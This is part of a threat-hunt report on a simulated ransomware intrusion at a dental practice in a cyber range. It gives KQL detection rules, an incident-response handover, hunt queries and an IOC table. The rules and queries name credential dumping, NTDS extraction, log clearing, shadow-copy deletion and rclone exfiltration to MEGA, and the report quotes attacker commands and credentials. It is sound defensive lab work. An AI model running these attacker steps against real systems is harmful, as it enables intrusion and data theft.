| project EventTime, host, SourceImage, Access
```

- **Logic:** Access masks that let a process read LSASS memory, from any process not on a short allowlist. spoolsv.exe is deliberately not allowlisted.
- **FP assessment:** EDR and backup agents may open LSASS; add them by full path after review.
- **Expected on Hunt 22 data:** spoolsv.exe at 02:49 to 02:50 and `C:\Users\Public\taskhostw.exe` at 03:31, BACKOFFICE-PC1. SearchIndexer.exe (0x21410) excluded.
- **Status:** Proposed.

### D5: Spooler as a parent of shells and admin tools

**ATT&CK:** T1055 Process Injection

```kql
HarborlightDental_CL
| where TimeGenerated > ago(1h)
| where tostring(EventID) == "1"
| where ParentImage endswith @"\spoolsv.exe"
| where Image has_any (@"\cmd.exe", @"\powershell.exe", @"\net.exe", @"\net1.exe", @"\ntdsutil.exe", @"\wmic.exe", @"\wevtutil.exe")
| project EventTime, host, Image, CommandLine
```

- **Logic:** The Print Spooler launches print drivers and helpers, not shells or account tools. Any of these children means code is running inside spoolsv.exe.
- **FP assessment:** Very low. Some print drivers spawn helper executables; none of the listed tools.
- **Expected on Hunt 22 data:** net use at 03:34:09 (BACKOFFICE-PC1), cmd.exe for ntdsutil at 04:35:35 and for `net user svc_sql` at 05:21:56 (ADDC01).
- **Status:** Proposed.

### D6: Plaintext credentials on the command line

**ATT&CK:** T1078.002 Valid Accounts: Domain Accounts; T1021.002 SMB/Windows Admin Shares

```kql
HarborlightDental_CL
| where TimeGenerated > ago(1h)
| where tostring(EventID) == "1"
| where CommandLine matches regex @"(?i)net(1)?(\.exe)?\s+use\s+.*\/user:\S+\s+\S+"
    or CommandLine matches regex @"(?i)net(1)?(\.exe)?\s+user\s+\S+\s+\S+\s+\/add"
| project EventTime, host, ParentImage, CommandLine
```

- **Logic:** net use with a password argument, or net user /add with a password. Both put a cleartext password in the log.
- **FP assessment:** MSP scripts may do this. Every hit is still a password exposed in logs and worth fixing.
- **Expected on Hunt 22 data:** 03:34:09 net use with Emily.Grant / Dental2024!; 05:21:56 `net user svc_sql Summer2024! /add /domain`.
- **Status:** Proposed.

### D7: NTDS extraction with ntdsutil IFM

**ATT&CK:** T1003.003 NTDS

```kql
HarborlightDental_CL
| where TimeGenerated > ago(1h)
| where tostring(EventID) == "1"
| where CommandLine has "ntdsutil" and CommandLine has_any ("ifm", "create full")
| project EventTime, host, ParentImage, CommandLine
```

- **Logic:** IFM media creation copies the whole directory database. At a practice this size it should never happen outside a planned DC build by Coastal MSP.
- **FP assessment:** Planned DC promotion from media. Confirm with the MSP change record.
- **Expected on Hunt 22 data:** 04:33:55 and 04:35:35 on ADDC01 (cmd.exe and ntdsutil.exe rows).
- **Status:** Proposed.

### D8: Event log clearing burst

**ATT&CK:** T1070.001 Clear Windows Event Logs

```kql
HarborlightDental_CL
| where TimeGenerated > ago(1h)
| where tostring(EventID) == "1"
| where CommandLine has "wevtutil" and CommandLine matches regex @"(?i)\s(cl|clear-log)\s"
| summarize Channels=dcount(CommandLine), Start=min(EventTime) by host, bin(EventTime, 5m)
| where Channels >= 2
```

- **Logic:** Two or more channels cleared on one host inside five minutes. Pair with an alert on Security 1102 where that event is collected.
- **FP assessment:** Low. Clearing logs is not routine maintenance for this client.
- **Expected on Hunt 22 data:** All six bursts in 7.13, from 03:42:36 on HL-FS01 to 05:20:01 on ADDC01.
- **Status:** Proposed.

### D9: rclone behaviour regardless of file name

**ATT&CK:** T1567.002 Exfiltration to Cloud Storage

```kql
HarborlightDental_CL
| where TimeGenerated > ago(1h)
| where tostring(EventID) == "1"
| where CommandLine has_any ("mega:", "--password-command", "rclone.conf")
    or (CommandLine has "--config" and CommandLine has_any (" copy ", " sync ", " move "))
| project EventTime, host, Image, ParentImage, CommandLine
```

- **Logic:** Keys on rclone's arguments, not its name, because the attacker renamed it to MsMpEng.exe.
- **FP assessment:** Low unless the MSP uses rclone for backups; if so, allowlist the exact remote name.
- **Expected on Hunt 22 data:** Three copy runs on HL-FS01 from 03:57:40, plus the 03:58:20 echo into rclone.conf.
- **Status:** Proposed.

### D10: Recovery inhibition commands

**ATT&CK:** T1490 Inhibit System Recovery

```kql
HarborlightDental_CL
| where TimeGenerated > ago(1h)
| where tostring(EventID) == "1"
| where CommandLine matches regex @"(?i)(vssadmin.*delete\s+shadows|wbadmin.*delete\s+catalog|bcdedit.*recoveryenabled\s+no|bcdedit.*bootstatuspolicy\s+ignoreallfailures|reagentc.*\/disable)"
| project EventTime, host, ParentImage, CommandLine
```

- **Logic:** Any one of these is close to a certain ransomware precursor on a file server.
- **FP assessment:** Very low.
- **Expected on Hunt 22 data:** Eight rows on HL-FS01 at 04:04:05 to 04:04:07 and 04:05:26, plus the vssadmin deletion on ADDC01.
- **Status:** Proposed.

### D11: New domain account added to a privileged group within minutes

**ATT&CK:** T1136.002 Create Account: Domain Account; T1098.007 Additional Local or Domain Groups

```kql
let created = HarborlightDental_CL
    | where TimeGenerated > ago(1h)
    | where tostring(EventCode) == "4720"
    | extend Account = extract(@"<Data Name='TargetUserName'>([^<]+)", 1, EventData_Xml)
    | project CreatedTime=EventTime, host, Account;
HarborlightDental_CL
| where TimeGenerated > ago(1h)
| where tostring(EventCode) in ("4728", "4732", "4756")
| extend Member = extract(@"<Data Name='MemberName'>([^<]+)", 1, EventData_Xml),
         Group  = extract(@"<Data Name='TargetUserName'>([^<]+)", 1, EventData_Xml)
| join kind=inner created on host
| where Member has Account and EventTime between (CreatedTime .. CreatedTime + 10m)
| project CreatedTime, AddedTime=EventTime, host, Account, Group
```

- **Logic:** An account that is created and put into a privileged group within ten minutes. The MemberName field holds a DN, so the join uses `has`.
- **FP assessment:** New admin onboarding by Coastal MSP. Confirm against their change record.
- **Expected on Hunt 22 data:** svc_sql on ADDC01, created 05:21:56, added to Domain Admins within the 05:21 to 05:23 window.
- **Status:** Proposed. Field extraction should be checked against a live 4728 row before deployment.

### D12: Sustained callbacks to one external destination per process

**ATT&CK:** T1071.001 Web Protocols; T1090.002 External Proxy

```kql
HarborlightDental_CL
| where TimeGenerated > ago(6h)
| where tostring(EventID) == "3"
| where not(ipv4_is_private(DestinationIp))
| summarize Connections=count(), First=min(EventTime), Last=max(EventTime) by host, Image, DestinationIp
| where Connections > 200
| where Image !startswith @"C:\Program Files"
| order by Connections desc
```

- **Logic:** A process outside Program Files making hundreds of connections to the same external address over a few hours. Add `cdn.cloud-endpoint.net` to a watchlist alongside it.
- **FP assessment:** Browsers and update agents live in Program Files and are excluded; Windows services in System32 may need a second exclusion list after a week of baselining.
- **Expected on Hunt 22 data:** The three backdoor images against 172.67.174.46 and 104.21.30.237 on all three hosts.
- **Status:** Proposed.

---

## 15 Handover to IR

**Immediate actions, in priority order:**

1. **Cut the C2 channel and isolate.** Sinkhole or block `cdn.cloud-endpoint.net` at DNS and the firewall. Do not rely on blocking 172.67.174.46 and 104.21.30.237 alone, as they are shared Cloudflare addresses. Isolate all three hosts from the internet while keeping them powered on for evidence.
2. **Remove the domain backdoor.** Disable svc_sql, remove it from Domain Admins and every other group, then delete it once evidence is preserved. Review the full membership of Domain Admins, Enterprise Admins and Administrators against Coastal MSP's own list.
3. **Assume every domain credential is stolen.** NTDS was extracted (F7). Reset the krbtgt password twice, with replication time between resets. Reset every user, service and MSP admin password, starting with Emily.Grant.
4. **Kill and collect the three backdoors.** `C:\Users\Public\taskhostw.exe` (all hosts it appears on), `C:\Users\Public\OneDriveSync.exe` (ADDC01), `C:\ProgramData\Microsoft\RuntimeBroker.exe` and `C:\ProgramData\Microsoft\MsMpEng.exe` (HL-FS01). Collect each binary and its autostart entry before removal (L2). Capture memory first on ADDC01, the last host still beaconing.
5. **Remove attacker artefacts.** `C:\Windows\Temp\ntds` on ADDC01, rclone config files config.dat and rclone.conf under `C:\ProgramData\Microsoft` on HL-FS01, `C:\Users\Public\20260203185934_recon.zip` on BACKOFFICE-PC1. Preserve copies first.
6. **Start breach handling.** `C:\Shares` was copied to MEGA (F9). Harborlight holds patient and insurance records, so a HIPAA breach risk assessment is needed now. Report the MEGA destination and `jwilson.vhr@proton.me` to MEGA and to law enforcement.
7. **Plan recovery with the DC in mind.** Shadow copies and the backup catalogue are gone on HL-FS01 and shadows are gone on ADDC01 (F10). Restore from offline or off-site backups only after steps 1 to 4. Given a full NTDS theft and a Domain Admin backdoor, consider rebuilding the domain controller rather than cleaning it.

**Evidence preservation:** Export `HarborlightDental_CL` for 2026-02-03 to 2026-02-05 and hold it under legal hold. The local Security logs on all three hosts were cleared, so this workspace copy is the primary record of the intrusion.

| Field | Value |
|---|---|
| Compromise confirmed | Yes. All three hosts and the domain |
| Handed to | Coastal MSP (Marcus Webb) and incident response |
| Time of handover (UTC) | 2026-10-12 (report submission) |
| Immediate risks flagged | Three live backdoors; svc_sql in Domain Admins; full NTDS and krbtgt exposure; shared-drive data at MEGA; no usable local recovery on HL-FS01; flat network unchanged |

---

## 16 Next-Hunt Leads

| ID | Lead | Why it is worth hunting | Data needed |
|---|---|---|---|
| L1 | Delivery path of the lure archive | Shows whether other staff got the same message and when the attacker first made contact | Microsoft 365 message trace, mailbox audit, browser history on BACKOFFICE-PC1 |
| L2 | Backdoor autostart mechanisms | Removal is incomplete without them; they also give creation times | Sysmon EventID 12/13 on Run and Services keys, Security 4697/4698, System 7045 |
| L3 | Contents of 20260203185934_recon.zip | Shows what the attacker learned about the network before moving | The file from C:\Users\Public on BACKOFFICE-PC1, if it survived |
| L4 | Exfiltration volume | Drives the breach notification scope | Firewall or proxy logs for 03:57 to 04:05; rclone logs if written; MEGA records through law enforcement |
| L5 | Origin of C:\ProgramData\Microsoft\MsMpEng.exe and any wsync.exe | The drop seen is a different path from the binary that ran; the reference text names a fourth file | EventID 11 for MsMpEng.exe and wsync.exe on all hosts; EventID 1 for copy or move commands |
| L6 | 4732 for the localgroup attempts | Confirms whether svc_sql is also in the Administrators group | EventCode 4732 on ADDC01, 05:21 to 05:23 |
| L7 | Direct BACKOFFICE-PC1 to ADDC01 traffic | Not tested here; would change the lateral movement picture if present | EventID 3 from BACKOFFICE-PC1 to 172.16.0.7 |
| L8 | Ransomware binary and launch | The encryptor itself was not identified; needed for decryption research and IOC sharing | EventID 11 Image for the .akira writes; EventID 1 around 05:22 to 05:24 on each host |
| L9 | Use of the stolen MSP admin hashes after the event | NTDS held every admin hash; reuse would show elsewhere in Coastal MSP's client base | Coastal MSP's RMM and logon logs across other clients |

---

## 17 Appendix A: Full Queries

Every query filters on `EventTime` only and was run with the portal time range set to Last 60 or Last 90 days. Queries A1, A2, A4 to A6, A8 to A18, A20 to A24, A26 to A28, A30 and A31 are exactly as I ran them, with screenshots in section 07. Queries marked "reference query" (A3, A7, A19, A25, A29, A32) are the hunt reference versions I worked from on questions where I did not keep a screenshot of my own result.

<details>
<summary><b>Expand all 32 queries</b></summary>

#### A1: Archive and disk-image file creation on the workstation (7.1)

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where EventID == "11"
| where TargetFilename matches regex @"(?i)\.(zip|rar|7z|iso|img)$"
| project EventTime, Image, TargetFilename, Account_Name, SubjectUserName, TargetUserName
| order by EventTime asc
```

#### A2: Process creation in the 10 minutes after the lure (7.2)

```kql
let LureTime = toscalar(
    HarborlightDental_CL
    | where host has "BACKOFFICE-PC1"
    | where TargetFilename endswith @"Vendor_Invoice_Review.iso"
    | summarize min(EventTime));
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "1"
| where EventTime between (LureTime .. LureTime + 10m)
| project EventTime, Image, ParentImage, CommandLine, ParentCommandLine, IntegrityLevel
| order by EventTime asc
```

#### A3 (reference query): DLL execution after the second lure (7.2)

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1" and tostring(EventID) == "1"
| where CommandLine has "dll"
| where EventTime between (datetime(2026-02-04 02:24:00) .. datetime(2026-02-04 02:26:00))
| project EventTime, CommandLine
```

#### A4: Process access with rundll32.exe as source (7.3)

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "10"
| extend SourceImage = extract(@"<Data Name='SourceImage'>([^<]+)", 1, EventData_Xml)
| extend TargetImage = extract(@"<Data Name='TargetImage'>([^<]+)", 1, EventData_Xml)
| extend SourceUser  = extract(@"<Data Name='SourceUser'>([^<]+)", 1, EventData_Xml)
| extend TargetUser  = extract(@"<Data Name='TargetUser'>([^<]+)", 1, EventData_Xml)
| extend Access      = extract(@"<Data Name='GrantedAccess'>([^<]+)", 1, EventData_Xml)
| where SourceImage endswith @"\rundll32.exe"
| project EventTime, SourceImage, TargetImage, SourceUser, TargetUser, Access
| order by EventTime asc
```

#### A5: ms-settings registry writes (7.4)

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "13"
| where TargetObject contains "ms-settings"
| project EventTime, Image, TargetObject, Details
| order by EventTime asc
```

#### A6: fodhelper.exe integrity levels (7.5)

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "1"
| where Image endswith @"\fodhelper.exe"
| extend ProcessId = extract(@"<Data Name='ProcessId'>([^<]+)", 1, EventData_Xml)
| extend UtcTime   = extract(@"<Data Name='UtcTime'>([^<]+)", 1, EventData_Xml)
| project EventTime, UtcTime, Image, IntegrityLevel, ProcessId, ParentImage, CommandLine
| order by EventTime asc
```

#### A7 (reference query): taskhostw.exe path comparison, all hosts (7.5)

```kql
HarborlightDental_CL
| where tostring(EventID) == "1"
| where Image has "taskhostw"
| project EventTime, host, Image, IntegrityLevel
```

#### A8: Remote thread creation into spoolsv.exe (7.6)

```kql
HarborlightDental_CL
| where tostring(EventID) == "8"
| extend SourceImage = extract(@"<Data Name='SourceImage'>([^<]+)", 1, EventData_Xml)
| extend TargetImage = extract(@"<Data Name='TargetImage'>([^<]+)", 1, EventData_Xml)
| where SourceImage contains "taskhostw.exe" or TargetImage contains "spoolsv.exe"
| project EventTime, host, SourceImage, TargetImage, EventData_Xml
| order by EventTime asc
```

#### A9: LSASS access and access mask (7.7)

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "10"
| extend SourceImage = extract(@"<Data Name='SourceImage'>([^<]+)", 1, EventData_Xml)
| extend TargetImage = extract(@"<Data Name='TargetImage'>([^<]+)", 1, EventData_Xml)
| extend Access      = extract(@"<Data Name='GrantedAccess'>([^<]+)", 1, EventData_Xml)
| where TargetImage endswith @"\lsass.exe"
| project EventTime, SourceImage, TargetImage, Access
| order by EventTime asc
```

#### A10: Credential use on the command line (7.9)

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "1"
| where CommandLine has_any ("net use", "/user:", "username", "password", "cmdkey", "psexec", "wmic")
| project EventTime, Image, ParentImage, CommandLine
| order by EventTime asc
```

#### A11: Workstation SMB to the file server (7.9)

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "3"
| where DestinationIp == "172.16.0.8"
| where tostring(DestinationPort) == "445"
| project EventTime, Image, process_exec, DestinationIp, DestinationPort
| order by EventTime asc
```

#### A12: File server to domain controller (7.11)

```kql
HarborlightDental_CL
| where host has "HL-FS01"
| where tostring(EventID) == "3"
| where DestinationIp == "172.16.0.7"
| project EventTime, host, Image, process_exec, DestinationIp, DestinationPort
| order by EventTime asc
```

#### A13: Domain controller back to the file server (7.11)

```kql
HarborlightDental_CL
| where host has "ADDC01"
| where tostring(EventID) == "3"
| where DestinationIp == "172.16.0.8"
| project EventTime, Image, process_exec, process_path, DestinationIp, DestinationPort
| order by EventTime asc
```

#### A14: ntdsutil IFM on the DC (7.12)

```kql
HarborlightDental_CL
| where host has "ADDC01"
| where tostring(EventID) == "1"
| where CommandLine has_any ("ntdsutil", "ifm", "ntds.dit", "create full")
| project EventTime, Image, ParentImage, CommandLine
| order by EventTime asc
```

#### A15: Hosts running log-clearing commands (7.13)

```kql
HarborlightDental_CL
| where tostring(EventID) == "1"
| where CommandLine has_any ("wevtutil", "Clear-EventLog", "Remove-EventLog")
| summarize by host
```

#### A16: Channel per wevtutil cl command (7.13)

```kql
HarborlightDental_CL
| where tostring(EventID) == "1"
| where CommandLine contains "wevtutil"
| where CommandLine contains " cl "
| extend Channel = extract(@"(?i)\bcl\s+([^\s""']+)", 1, CommandLine)
| where isnotempty(Channel)
| project EventTime, host, Channel, CommandLine
| order by EventTime asc
```

#### A17: Channels cleared per host per 5-minute bin (7.13)

```kql
HarborlightDental_CL
| where tostring(EventID) == "1"
| where CommandLine contains "wevtutil"
| where CommandLine matches regex @"(?i)\s(cl|dl)\s"
| extend Channel = extract(@"(?i)\s(?:cl|dl)\s+""?([^""]+)""?", 1, CommandLine)
| where isnotempty(Channel)
| summarize ChannelsCleared=dcount(Channel), Channels=make_set(Channel),
            StartTime=min(EventTime), EndTime=max(EventTime) by host, bin(EventTime, 5m)
| order by ChannelsCleared desc
```

#### A18: Renamed rclone on the file server (7.14)

```kql
HarborlightDental_CL
| where host has "HL-FS01"
| where tostring(EventID) == "1"
| where Image endswith @"\MsMpEng.exe" or CommandLine contains "MsMpEng.exe"
| project EventTime, Image, ParentImage, CommandLine
| order by EventTime asc
```

#### A19 (reference query): rclone configuration and MEGA account (7.14)

```kql
HarborlightDental_CL
| where CommandLine has "rclone" or CommandLine has "proton"
| where CommandLine has "echo"
| project EventTime, CommandLine
```

#### A20: Anti-recovery techniques per host (7.16)

```kql
HarborlightDental_CL
| where tostring(EventID) == "1"
| where CommandLine has_any ("vssadmin", "wbadmin", "bcdedit", "reagentc")
| extend Technique = case(
    CommandLine contains "vssadmin", "VSS deletion",
    CommandLine contains "wbadmin",  "Backup deletion",
    CommandLine contains "bcdedit",  "Boot recovery modification",
    CommandLine contains "reagentc", "Windows Recovery modification",
    "Other")
| summarize Techniques=make_set(Technique), Count=dcount(Technique) by host
| order by Count desc
```

#### A21: Anti-recovery sequence on HL-FS01 (7.16)

```kql
HarborlightDental_CL
| where host has "HL-FS01"
| where tostring(EventID) == "1"
| where CommandLine has_any ("vssadmin", "wbadmin", "bcdedit")
| extend Technique = case(
    CommandLine contains "vssadmin", "VSS",
    CommandLine contains "wbadmin",  "Backup",
    CommandLine contains "bcdedit",  "Boot",
    "Other")
| project EventTime, Technique, CommandLine
| order by EventTime asc
```

#### A22: Executables written by PowerShell on HL-FS01 (7.18)

```kql
HarborlightDental_CL
| where host has "HL-FS01"
| where tostring(EventID) == "11"
| where Image contains "powershell"
| where TargetFilename matches regex @"(?i)\.(exe|dll)$"
| project EventTime, Image, TargetFilename
| order by EventTime asc
```

#### A23: DNS queries by the backdoor images (7.19)

```kql
HarborlightDental_CL
| where tostring(EventID) == "22"
| where Image has_any ("OneDriveSync.exe", "RuntimeBroker.exe", "taskhostw.exe")
| summarize Hosts=make_set(host), ResolvedIPs=make_set(QueryResults) by QueryName
| order by QueryName asc
```

#### A24: C2 connections by host and port (7.20)

```kql
HarborlightDental_CL
| where tostring(EventID) == "3"
| where DestinationIp in ("172.67.174.46", "104.21.30.237")
| summarize Connections=count() by host, DestinationPort
| order by host asc, Connections desc
```

#### A25 (reference query): Credential Manager reads by hour (7.8)

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1" and EventCode == 5379
| summarize count() by bin(EventTime, 1h)
```

#### A26: First and last C2 callback per host (7.21)

```kql
HarborlightDental_CL
| where tostring(EventID) == "3"
| where DestinationIp in ("172.67.174.46", "104.21.30.237")
| summarize FirstCallback=min(EventTime), LastCallback=max(EventTime), Connections=count() by host
| order by LastCallback desc
```

#### A27: svc_sql creation (7.22)

```kql
HarborlightDental_CL
| where host has "ADDC01"
| where tostring(EventCode) == "4720" or CommandLine contains "svc_sql" or EventData_Xml contains "svc_sql"
| project EventTime, EventCode, Image, ParentImage, CommandLine, TargetUserName, EventData_Xml
| order by EventTime asc
```

#### A28: Commands in the 30 seconds before the Domain Admins add (7.22)

```kql
let SuccessTime = toscalar(
    HarborlightDental_CL
    | where host has "ADDC01"
    | where tostring(EventCode) == "4728"
    | where tostring(pack_all()) contains "svc_sql"
    | summarize min(EventTime));
HarborlightDental_CL
| where host has "ADDC01"
| where tostring(EventID) == "1"
| where EventTime between (SuccessTime - 30s .. SuccessTime + 5s)
| where CommandLine contains "svc_sql"
| project EventTime, Image, ParentImage, CommandLine
| order by EventTime asc
```

#### A29 (reference query): akira_svc, created or only queried (7.22)

```kql
HarborlightDental_CL
| where CommandLine has "akira_svc"
| project EventTime, host, CommandLine, EventID
```

#### A30: Ransom note drops (7.23)

```kql
HarborlightDental_CL
| where tostring(EventID) == "11"
| where TargetFilename endswith @"\akira_readme.txt"
| summarize Drops=count()
```

#### A31: Distinct encrypted files (7.23)

```kql
HarborlightDental_CL
| where tostring(EventID) == "11"
| where TargetFilename endswith ".akira"
| summarize DistinctFiles=dcount(TargetFilename)
```

#### A32 (reference query): Second backdoor on the DC (7.17)

```kql
HarborlightDental_CL
| where host has "ADDC01" and tostring(EventID) in ("1", "3")
| where Image has "OneDriveSync"
| project EventTime, EventID, Image, CommandLine, DestinationIp
```

</details>

---

## Appendix B: Indicators of Compromise

| Type | Indicator | Context |
|---|---|---|
| File | `Vendor_Invoice_Review.iso` | First lure, extracted to `C:\Users\emily.grant\Downloads\Vendor_Invoice_Review\` |
| File | `Harborlight_Insurance_Claims.iso` | Second lure, same payload |
| File | `review.dll` (export `StartW`) | Payload loaded from the mounted ISO as `D:\review.dll` |
| File path | `C:\Users\Public\taskhostw.exe` | Primary backdoor; UAC bypass target; injects spoolsv.exe |
| File path | `C:\Users\Public\OneDriveSync.exe` | Backdoor on ADDC01 |
| File path | `C:\ProgramData\Microsoft\RuntimeBroker.exe` | Backdoor on HL-FS01 |
| File path | `C:\ProgramData\Microsoft\MsMpEng.exe` | Renamed rclone used for exfiltration |
| File path | `C:\ProgramData\Microsoft\Windows Defender\MsMpEng.exe` | Dropped by PowerShell on HL-FS01; role not established |
| File path | `C:\ProgramData\Microsoft\config.dat`, `C:\ProgramData\Microsoft\rclone.conf` | rclone configuration |
| File path | `C:\Users\Public\20260203185934_recon.zip` | Staged reconnaissance output |
| File path | `C:\Windows\Temp\ntds` | ntdsutil IFM output on ADDC01 |
| File | `akira_readme.txt`; `*.akira` | Ransom note (128 drops); encrypted extension (27 files) |
| Registry | `HKU\S-1-5-21-3792733513-337468670-578946671-1133_Classes\ms-settings\shell\open\command` | fodhelper UAC bypass |
| Domain | `cdn.cloud-endpoint.net` | C2, Cloudflare-fronted |
| IP | `172.67.174.46`, `104.21.30.237` | Cloudflare edge addresses returned for the C2 domain (shared; use with care) |
| Exfil destination | `mega:HARBORLIGHT-exfil` | rclone MEGA remote |
| Email | `jwilson.vhr@proton.me` | MEGA account receiving the data |
| Account | `HARBORLIGHT\svc_sql` (password `Summer2024!`) | Attacker-created Domain Admin |
| Account | `HARBORLIGHT\Emily.Grant` (password `Dental2024!`) | Compromised user credential |
| String | `exf1ltr8` | rclone config password |

---

## Appendix C: References

1. MITRE ATT&CK, Enterprise techniques: T1218.011, T1055, T1548.002, T1036.005, T1003.001, T1003.003, T1021.002, T1047, T1070.001, T1567.002, T1490, T1071.001, T1090.002, T1090.004, T1136.002, T1098.007, T1486. <https://attack.mitre.org/techniques/enterprise/>
2. CISA, #StopRansomware: Akira Ransomware, advisory AA24-109A. <https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-109a>
3. Microsoft, Sysinternals Sysmon event reference (EventIDs 1, 3, 8, 10, 11, 13, 22). <https://learn.microsoft.com/sysinternals/downloads/sysmon>
4. Microsoft, ntdsutil ifm command reference. <https://learn.microsoft.com/windows-server/administration/windows-commands/ntdsutil>
5. Cloudflare, published IP ranges. <https://www.cloudflare.com/ips/>
6. Log(N) Pacific Cyber Range, Hunt 22: Harborlight, engagement brief HL-INC-2026-0204 and data dictionary.

---

*All hosts, users, credentials and infrastructure in this report belong to a simulated client environment in the Log(N) Pacific Cyber Range.*
